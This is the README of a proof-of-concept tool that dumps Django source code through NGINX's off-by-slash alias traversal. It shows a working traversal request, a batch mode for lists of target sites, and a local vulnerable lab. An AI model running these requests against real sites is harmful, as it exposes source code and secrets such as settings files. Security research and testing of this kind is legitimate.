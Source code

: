 # PoC: Off-by-slash Django Site Dumper

> A proof of concept to dump Django website's source code affected by NGINX's off-by-slash alias directive misconfiguration.

<p align="center"><img src="/demo.gif?raw=true"/></p>


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper

$ cd offbyslash-django-dumper

$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python exploit.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python exploit.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_ / _alias traversal_)
that allow path traversal via misconfigured alias.
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://django-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Example Vulnerable Site

An example website is provided in this repository at directory `vulnerable-site` in Dockerfile format.

```bash
$ cd vulnerable-site
$ docker build -t tmp/vulnsite . && docker run --rm -it -p 8000:80 -d tmp/vulnsite


$ cd ..
$ python exploit.py --url http://localhost:8000/

[+] START CRAWLING: http://localhost:8000/
[+] downloading: dump/http-localhost-8000-/manage.py
[+] downloading: dump/http-localhost-8000-/app/settings.py
[+] downloading: dump/http-localhost-8000-/app/wsgi.py
[+] downloading: dump/http-localhost-8000-/app/urls.py
[+] FINISHED: http://localhost:8000/


$ tree dump/
dump/
└── http-localhost-8000-
    ├── app
    │   ├── settings.py
    │   ├── urls.py
    │   └── wsgi.py
    └── manage.py
```


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)
- [Gixy's documentation of path traversal via misconfigured alias](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)
